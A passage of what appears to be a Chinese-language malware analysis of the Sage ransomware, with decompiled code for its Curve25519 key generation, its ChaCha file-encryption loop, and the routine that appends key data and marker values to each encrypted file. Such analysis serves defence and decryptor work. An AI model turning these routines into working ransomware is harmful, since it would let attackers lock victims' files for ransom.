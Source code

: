 同理，私钥的生成也非常容易，只需要生成一个32字节的随机数，将其转换为私钥即可：

```
int __cdecl GenerateCurve25519SecretKey(_BYTE *buffer)
{
  char v1; // al@1
 
  getSecureRandom(32, (int)buffer);
  v1 = buffer[31];
  *buffer &amp;= 248u;
  buffer[31] = v1 &amp; 0x3F | 0x40;
  return 0;
}
```

以上就是密钥生成的全部流程。至于文件加密流程，Sage首先是使用Curve25519对文件进行首次加密，再利用ChaCha算法进行后续加密（同样也是非常规加密方法），加密密钥附在输出文件的尾部：

```
GenerateCurve25519SecretKey(&amp;secretKey);
ComputeCurve25519MatchingPublicKey(pubKey, &amp;secretKey);
ComputeCurve25519SharedSecret(sharedSecret, &amp;secretKey, ellipticCurveKey-&gt;pk);
 
//
 
ChaChaInit(&amp;chaCha20key, (unsigned __int8 *)sharedSecret, (unsigned __int8 *)minikey);
 
while (bytesLeftToRead) {
    // Read from file to lpBuff
 
    ChaChaEncrypt(&amp;chaCha20key, lpBuff, lpBuff, numBytesRead);
 
    // Write from file to lpBuff
}
 
AppendFileKeyInfo(hFile_1, ellipticCurveKey, &amp;FileSize, pubKey, a5);
```

AppendFileKeyInfo函数的功能是将共享密钥和pubKey附加到文件尾部：

```
int __cdecl AppendFileKeyInfo(HANDLE hFile, curve_key *sharedKey, DWORD *dataSize, char *pubKey, int a5)
{
  DWORD dataSizeV; // edx@1
  int result; // eax@3
  _DWORD buffer[24]; // [esp+8h] [ebp-60h]@1
 
  buffer[0] = 0x5A9EDEAD;
  qmemcpy(&amp;buffer[1], sharedKey, 0x20u);
  qmemcpy(&amp;buffer[9], pubKey, 0x20u);
  dataSizeV = *dataSize;
  buffer[19] = dataSize[1];
  buffer[18] = dataSizeV;
  buffer[21] = a5;
  buffer[20] = 0;
  buffer[22] = 0x5A9EBABE;
  if ( WriteFile(hFile, buffer, 0x60u, (LPDWORD)&amp;sharedKey, 0) &amp;&amp; sharedKey == (curve_key *)96 )
    result = 0;
  else
    result = -5;
  return result;
}
```
